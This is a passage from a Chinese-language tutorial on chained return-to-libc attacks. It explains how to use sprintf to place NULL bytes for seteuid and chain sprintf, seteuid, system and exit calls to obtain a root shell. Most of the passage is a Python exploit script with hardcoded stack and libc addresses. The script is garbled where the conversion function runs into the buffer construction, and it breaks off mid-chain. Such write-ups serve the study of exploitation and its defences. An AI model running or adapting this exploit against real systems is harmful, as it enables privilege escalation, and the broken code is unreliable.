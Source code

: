 **问题2：在我们的情况下，`seteuid_arg`应为零。但是由于零是一个坏字符，如何在堆栈地址`0xbffff210`写零？有一个简单的解决方案，它在同一篇文章中由nergal讨论。在链接libc函数时，前几个调用应该是`strcpy`，它将`NULL`字节复制到`seteuid_arg`的堆栈位置。**

注意：不幸的是在我的`libc.so.6`中`strcpy`的函数地址是`0xb7ea6200`，libc函数地址本身包含一个`NULL`字节（坏字符!!）。因此，`strcpy`不能用于漏洞代码。`sprintf`（其函数地址为`0xb7e6e8d0`）用作`strcpy`的替代，使用`sprintf`将`NULL`字节复制到`seteuid_arg`的堆栈位置。

因此，以下libc函数被链接来解决上述两个问题并成功获取root shell：

```
sprintf | sprintf | sprintf | sprintf | seteuid | system | exit
```

利用代码：

```py
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

fake_ebp0 = 0xbffff1a0
fake_ebp1 = 0xbffff1b8
fake_ebp2 = 0xbffff1d0
fake_ebp3 = 0xbffff1e8
fake_ebp4 = 0xbffff204
fake_ebp5 = 0xbffff214
fake_ebp6 = 0xbffff224
fake_ebp7 = 0xbffff234
leave_ret = 0x0804851c
sprintf_addr = 0xb7e6e8d0
seteuid_addr = 0xb7f09720
system_addr = 0xb7e61060
exit_addr = 0xb7e54be0
sprintf_arg1 = 0xbffff210
sprintf_arg2 = 0x80485f0
sprintf_arg3 = 0xbffff23c
system_arg = 0x804829d
exit_arg = 0xffffffff

#endianess convertion
def conv(num):
 return struct.pack("<I",num* 264 
buf += conv(fake_ebp0) 
buf += conv(leave_ret) 
#Below four stack frames are for sprintf (to setup seteuid arg )
buf += conv(fake_ebp1) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp2) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp3) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp4) 
```